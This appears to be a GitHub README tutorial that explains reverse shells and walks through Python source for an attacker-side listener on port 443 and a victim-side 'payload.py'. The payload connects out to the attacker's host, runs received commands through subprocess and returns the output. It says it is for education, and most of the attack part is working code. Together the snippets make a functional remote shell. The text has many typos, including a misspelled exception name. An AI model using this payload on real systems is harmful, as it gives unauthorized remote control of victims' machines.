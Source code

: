 # Reverse-Shell
A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.
One of the most known frameworks that ethical hackers use in order to create and commnunicate with a reverse shell is MSFVenom and MSFconsole. 

How does it work?? 
To understand the mecanism i decided to write a simple reversehell in python in order to expalin the basics of the reverse shell theory.

# Requirements
To do so we need these common python libraries: 

### socket:
This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python’s object-oriented style: the socket() function returns a socket object whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the C interface: as with read() and write() operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.

### OS
This module provides a portable way of using operating system dependent functionality. We are going to use this library in order to execute the commands sent by the attacker on the victim machine

### sys
Python sys module has several methods and variables that can alter various aspects of the Python runtime environment. It permits operating on the interpreter by giving access and information about the constants, variables, and functions that have a strong interaction with the interpreter.

### subprocess
The subprocess module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

# Code explication

## server.py
this is the script the hacker will be running on his machine/server this code is going to accpet and establish communication with the client side.

Coding the server side we only need the sockett libaray.

```
server_host= "0.0.0.0"
server_port= 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
cyber = socket.socket()
```
As you can understanf from the variable names the server_host is the IP address of our server/attacker_machine we used the IP 0.0.0.0 in order to make the server reachable through all the IPv4 addresses of the server. For the server_port I used the port 443. We can use any port we want but the port 80 and 443 are widely used to bypass firewalls. data_size is the maximum ammoun of data that the client can send to the server and versversa.
SPERATOR is the seperation between the data sent or received.

then I created a socket and I called it cyber this is what we are going to use in the second part of our code.

Let's bind the socket that we created to out server IP and port that we initiated in the first two commands.
```
cyber.bind((server_host,server_port))
```
One of the most important part in creating such server is that it should have the ability to listen and accept incoming requests that why we need this two lines:
```
cyber.listen(10)
client_socket, client_ip = cyber.accept()
```
the listen function will allow us to listen to the incoming connections and the paramater 10 I used is the maximum length to which the queue of pending connections for sockfd may grow. That means if we receive 12 requests before we accept the connection then 2 of these requests will be droped.
The second line means that we accepted the connection from the client (our victim machine) and we stored the victim_socket and the victim_adress in two different variabales.
```
print(f"{client_ip[0]}:{client_ip[1]} Connected!")
```
This output will have the following format IP:PORT connected!
The first step we will do after having a connected client is to try and get the working directory on the victims devices this is why we will use the following code:
```
cmd = client_socket.recv(data_size).decode()
print("[+] Current working directory:", cmd)
```
A lot of people will be aseked why I used the decode function will because we need to encode the data in bytes to be sent theough the victim socket.
The main process of sending commands to the victims device will be in this part of the code:
```
while True:
    command = input(f"{cmd}~$ ")
    if not command.strip():
        continue
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    output = client_socket.recv(data_size).decode()
    results,cmd = output.split(SEPARATOR)
    print(results)
```
basicly what we are doing is that we are verifying if the command which is the input of the hacker is not blank if it's the case then we will encode the command and send it to the victim. If hte command in lower case is exit then we will break out that means we will shutdown the server and then the communication with the client will die. If the process is executed correctly then we can receaive data from the victim and output. This is what the last 3 lines of code are doing on our server code.

## payload.py
The payload is the portion of the malware which performs malicious action. In our case the payload is the script that will be running on the victims device. 

let's start by importing the needed libraries and setting up the varaibles we will use in order to establish the communication with the attackers server.
```
server_host = #server_IP
server_port = 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
victim = socket.socket()
victim.connect((server_host,server_port))
```
This is made for educational purposes and the main goal is to explain the theory behind revere shells this is why we cab see that the hacker's IP will be in plain text. In real life senarios the payload is obfuscated so it will be so hard to identify the hackers IP.
For this part the only difference we got from the server code is in the last line victim.connect and not bind because the victim will try to connect on the server we already created.
Well the server is waiting fot our working directory this is why we should send it first to do that we will use the OS library to run a local command wich is cwd the current working directory and we will send it through the socket this is done by the following code:

```
cmd = os.getcwd()
victim.send(cmd.encode())
```

the main job of the payload is that it will execute the commands sent by the attacker to do so we need to accept the received data using this line of code:
```
    command = victim.recv(data_size).decode()
    splited_command= command.split()
```
all what we have to do is to verify that the command is not blank, if it's an exit then we will shutdown the communication then we will store the output of the executed commands and send it back to the server. All of this is made possible by this code:
```
while True:
    command = victim.recv(data_size).decode()
    splited_command= command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(''.join(splited_command[1:]))
        except FileNotFounfError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cmd = os.getcwd()
    message = f"{output}{SEPARATOR}{cmd}"
    victim.send(message.encode())
victim.close()
```

author: cybereagle2001
used refrences : pythoncode - acunetix - docs.python - stackoverflow -wikipedia 
